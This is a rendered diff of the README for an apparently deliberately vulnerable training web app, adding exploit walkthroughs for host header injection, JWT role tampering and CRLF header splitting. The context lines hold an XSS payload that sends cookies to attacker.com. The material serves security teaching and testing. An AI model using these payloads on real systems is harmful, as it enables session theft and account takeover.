

Before and after one commit to Amegh3/Burger-Lab-Vulnerable-Web-Application-BLVWA-, a Markdown page: README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Update README with walkthroughs for HHI, JWT, and CRLF vulnerabilities

```diff
--- a/README.md
+++ b/README.md
@@ -68,6 +68,32 @@ Burger Labs is built for security testing to provide a realistic, professional t
     1. Submit a complaint with the message: `<img src=x onerror="fetch('https://attacker.com/log?c='+document.cookie)">`.
     2. When an administrator views the ticket in the back-end, their session cookie is leaked.
 *   **Outcome**: Administrative account takeover.
+
+### 8. Host Header Injection (Password Reset)
+*   **Vector**: Password Reset Portal (`/forgot-password`)
+*   **Vulnerability**: Blindly trusting the `Host` header to generate reset links.
+*   **Exploit**:
+    1. Go to `/forgot-password`.
+    2. Enter an email address.
+    3. Intercept the request and change the `Host` header to `attacker.com`.
+    4. The generated reset link will now point to `attacker.com`.
+*   **Outcome**: Hijack password reset tokens by tricking users into clicking malicious links.
+
+### 9. JWT Authentication Bypass
+*   **Vector**: Advanced Lab (`/lab/jwt/1`)
+*   **Vulnerability**: Predictable or missing signature validation in the `auth_token` cookie.
+*   **Exploit**:
+    1. View the JWT lab page.
+    2. Edit the `auth_token` cookie in your browser.
+    3. Base64 decode the cookie, change `"role": "customer"` to `"role": "admin"`, and re-encode it.
+*   **Outcome**: Vertical privilege escalation to Administrator.
+
+### 10. CRLF Injection (Header Splitting)
+*   **Vector**: Advanced Lab (`/lab/crlf/1`)
+*   **Vulnerability**: Unsanitized input in the `Location` header.
+*   **Exploit**:
+    1. Use the parameter `?url=/%0d%0aSet-Cookie:session=hijacked`.
+*   **Outcome**: Session fixation or cookie injection via response header splitting.
 
 ### 💉 Injection & Scripting (1-40)
 1. **[Login]** SQL Injection: Classic Tautology Auth Bypass.
```
